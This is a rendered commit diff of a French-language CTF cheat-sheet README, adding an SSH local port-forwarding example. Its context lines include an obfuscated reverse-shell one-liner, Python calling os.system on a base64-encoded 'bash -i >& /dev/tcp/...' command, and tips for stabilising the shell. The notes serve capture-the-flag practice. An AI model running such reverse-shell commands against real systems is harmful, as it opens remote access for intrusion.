

Before and after one commit to illumdir/CTF, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -209,6 +209,14 @@ __import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNy4yNT
 - 2.3. dans le revshell, export de la variable TERM avec `export TERM=xterm`
 - 2.4. on se fait plaiz avec `alias ll="ls -alh --color"` et `alias grep="grep --color=always"` dans le revshell
 
+# Port Forward :
+Port forwarding avec ssh
+ - ssh -L 9999:127.0.0.1:8000 Username@TargetIP
+    Port local : 9999
+    Port a rediriger 8000
+
+
+
 
  # Write-up
 [  HackTheBox-CTF-Writeups/README.md at master · Ignitetechnologies/HackTheBox-CTF-Writeups · GitHub](https://github.com/Ignitetechnologies/HackTheBox-CTF-Writeups)
```
